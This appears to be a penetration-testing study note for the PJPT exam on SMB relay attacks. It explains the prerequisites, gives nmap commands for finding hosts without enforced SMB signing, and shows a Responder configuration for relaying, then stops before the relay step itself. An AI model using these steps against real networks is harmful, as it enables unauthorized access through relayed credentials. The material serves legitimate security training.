 # SMB Relay Attacks (PJPT Prep)

## What is SMB Relay?
**SMB Relay** is an advanced technique that builds on LLMNR/NBT-NS poisoning. Instead of cracking captured hashes, we relay those hashes to specific target machines to potentially gain access.

**Key concept:** Use captured authentication attempts to authenticate to other systems without needing to crack passwords.

## Requirements

### Critical Prerequisites
- **SMB signing must be disabled or not enforced** on the target machine
- **Relayed user credentials must have admin privileges** on the target machine for meaningful access
- Target must be reachable over SMB (port 445)

### Identifying Vulnerable Hosts
Use Nmap to scan for hosts without SMB signing:

```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

Look for output showing:
```
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
```

This indicates SMB signing is **not enforced** (vulnerable to relay).

## Attack Steps

### 1. Identify Targets Without SMB Signing
Scan the network to find vulnerable machines:

```bash
# Scan entire subnet
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24

# Scan specific target
nmap --script=smb2-security-mode.nse -p445 192.168.1.10
```

### 2. Set Up Responder for Relay
Configure Responder to capture but not respond to SMB/HTTP:

Edit `/etc/responder/Responder.conf`:
```
[Responder Core]
; Servers to start
SQL = On
SMB = Off
HTTP = Off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTPS = On
DNS = On
```
